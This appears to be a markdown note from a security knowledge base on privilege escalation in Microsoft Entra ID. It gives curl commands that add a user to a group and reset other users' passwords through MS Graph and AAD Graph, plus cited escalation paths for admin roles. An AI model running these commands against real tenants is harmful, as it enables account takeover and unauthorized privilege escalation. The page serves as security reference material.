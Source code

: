```yaml
---
title: Entra Escalation
---
```


[[notes/mitre-attack/privilege-escalation]] in [[notes/entra/index]].

Add the user with id `f66e133c-bd01-4b0b-b3b7-7cd949fd45f3` to the group `e6870783-1378-4078-b242-84c08c6dc0d7` trough AAD Graph.

~~~ bash
jq -n --arg tenant $tenant_id '{"url":"https://graph.windows.net/\($tenant)/directoryObjects/f66e133c-bd01-4b0b-b3b7-7cd949fd45f3"}' | curl -sSf -H 'Content-Type: application/json' -H "Authorization: Bearer $msgraph_token" "https://graph.windows.net/$tenant_id/groups/e6870783-1378-4078-b242-84c08c6dc0d7/$links/members?api-version=1.6" -d @-
~~~

Reset the password of another user trough MS Graph.

~~~ bash
curl -sSf -H "Authorization: Bearer $msgraph_token" "https://graph.microsoft.com/v1.0/users/$upn/authentication/methods/28c10230-6103-485e-b985-444c60001490/resetPassword" -d '{"newPassword":"P@ssw0rd1234"}' | jq
~~~

Reset the password of another user trough AAD Graph.

~~~ bash
curl -sSf -H "Authorization: Bearer $aadgraph_token" "https://graph.windows.net/$tenant_id/users/$user_id?api-version=1.6" -d '{"passwordProfile":{"password":"P@ssw0rd1234","forceChangePasswordNextLogin":false,"enforceChangePasswordPolicy":false}}' -X PATCH -H 'Content-Type: application/json'
~~~

More paths:

- *Domain Name Administrator*, *Application Administrator*, *Security Administrator* and *External Identity Provider Administrator* can configure Identity Federation with ADFS and impersonate global admins without MFA (unconfirmed, [discussion](https://twitter.com/cnotin/status/1726003826522480985), [blog](http://web.archive.org/web/20230605210813/https://aadinternals.com/post/federation-vulnerability/))
- *Application Administrator* can take over all service principals ([source](http://web.archive.org/web/20230523081045/https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/))
- *Privileged Role Administrator* can become *Global Administrator* ([source](http://web.archive.org/web/20231028211850/https://cloudbrothers.info/azure-attack-paths/#azure-ad-roles))
- *Global Administrator* can take over all subscriptions in the tenant by granting himself the *User Access Administrator* role in ARM ([source](http://web.archive.org/web/20231028211850/https://cloudbrothers.info/azure-attack-paths/#elevate-azure-subscription-access), [source](http://web.archive.org/web/20230123080516/https://sofblocks.github.io/azure-attack-paths/#adding-global-admin-to-azure-subscriptions), [source](https://docs.microsoft.com/en-us/azure/role-based-access-control/elevate-access-global-admin))
